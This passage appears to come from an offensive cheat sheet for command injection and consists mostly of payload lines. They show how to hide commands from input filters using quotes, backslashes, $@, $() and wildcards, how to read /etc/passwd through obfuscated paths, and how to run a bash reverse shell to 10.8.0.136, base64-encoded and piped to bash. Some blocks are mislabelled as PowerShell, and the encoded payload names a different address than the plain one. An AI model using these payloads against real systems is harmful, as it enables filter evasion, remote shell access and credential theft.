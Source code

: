 #### Bypass with double quote

```powershell
w"h"o"am"i
```

#### Bypass with backslash and slash

```powershell
w\ho\am\i
/\b\i\n/////s\h
```

#### Bypass with $@

`$0`: Refers to the name of the script if it's being run as a script. If you're in an interactive shell session, `$0` will typically give the name of the shell.

```powershell
who$@ami
echo whoami|$0
```

#### Bypass with $()

```powershell
who$()ami
who$(echo am)i
who`echo am`i
```

#### Bypass with variable expansion

```powershell
/???/??t /???/p??s??

test=/ehhh/hmtc/pahhh/hmsswd
cat ${test//hhh\/hm/}
cat ${test//hh??hm/}
```

#### Bypass with wildcards

```powershell
powershell C:\*\*2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc
```

#### Bypass with base64 encode

```
    echo "bash -i >& /dev/tcp/10.8.0.136/2222 0>&1" | base64
    echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjEuMTIxLzgwODIgMD4mMQo=${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash
    echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjEuMTIxLzgwODIgMD4mMQo= | base64 -d | bash
```

## Data Exfiltration

